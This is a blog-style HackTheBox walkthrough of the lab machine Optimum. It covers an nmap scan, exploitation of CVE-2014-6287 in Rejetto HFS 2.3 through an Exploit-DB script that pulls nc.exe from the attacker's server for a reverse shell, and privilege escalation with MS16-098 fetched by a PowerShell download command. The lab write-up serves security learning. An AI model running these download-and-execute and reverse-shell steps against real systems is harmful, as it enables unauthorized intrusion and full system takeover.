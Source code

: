 ```yaml
---
layout: post
title: "HTB: Optimum Walkthrough"
author: "Emmet Friel"
categories: HackTheBox
image: htb/optimum/optimum.png
---
```


# Introduction

This box was interesting and a pain, it took me longer than it should have but it gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.

# Reconnaissance & Enumeration

```bash
root@kali:~# nmap -sC -sV -O -p- -oN nmap.nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 10:53 BST
Nmap scan report for 10.10.10.8
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.40 seconds
```
- -sC : scripting scan, equivalent to also writing –script=default
- -sV: service version
- -O  : Operating System version
- -p- : scanning all 65536 ports
- -oN: Output result to a normal text file called nmap.nmap

| ![image]({{site.github.url}}/assets/img/htb/optimum/hfs_opt.png) |
| :--: |
| *HFS Webpage running on port 80* |

Any webpage running on port 80 I always perform a dirb and nikto scan in the background, so I did just that however a quick search on the service version gave me everything I needed to get access into the system. 

The exploit I used was: <a href="https://www.exploit-db.com/exploits/39161" target="_blank_">Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</a> which refers to CVE-2014-6287. The vulnerability is 
> “The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.” In other words, using the search bar on the website we can execute code server side using the null sequence.

There are now two approaches to exploit the machine: 
1. Execute commands in the search bar on the website using the null byte (%00)
2. Use the exploit script we found through a quick search.

For simplicity, I am going to use the scripting option.

# Shell Access

To use the script there are 3 important variables:

1. Change the IP address to your own: 
```bash
ip_addr = "192.168.44.128" #local IP address
```

2. Change the port which you are going to listen on:
```bash
	local_port = "443" # Local Port number
```

3. Host a webserver serving netcat (nc.exe). I am using SecLists GitHub repo for nc.exe which you can clone from their GitHub page.
```bash
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

Once I edited the script, I setup my netcat listener, python webserver and then executed the script: ```python 39161.py <target IP> <target port>``` 
Note that it may take a few attempts for the script to work. 

| ![image]({{site.github.url}}/assets/img/htb/optimum/opt_terminal.png) |
| :--: |
| *Running the attack and having a reverse shell access to the victim machine* |


# Privilege Escalation using Windows Suggester

You can see I am user “kostas” from the terminal. I do not have Admin permissions so it’s time to escalate to root! To do this I used the <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank_">Windows Exploit Suggester</a> tool. The tool is really simple and extremely powerful, it compares all the patches on the machine to Microsoft’s patch database and outputs a “suggested” list of exploits. I have seen older tutorials use “Sherlock” instead of “Windows Suggester” but if you have a look at Sherlock’s GitHub, the repo hasn't been updated in 3 years :\ 

To do this, run ```systeminfo``` and then copy and paste the output to a file: ```systeminfo.txt``` in my case 

```windows
C:\Users\kostas\Desktop>systeminfo
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-07-mssb.xls
[*] done
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --database 2020-04-07-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) – Critical
```

The output of windows-exploit-suggester shows a grand collection of exploits to try out so at this stage it’s really trial and error. Note that some attempts caused the machine to crash and so you would have to set up the reverse shell again, nothing major.
After trial and error, MS16-098 got me that nice root shell :)

I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.

```windows
C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')"
```

```windows
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved. 

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```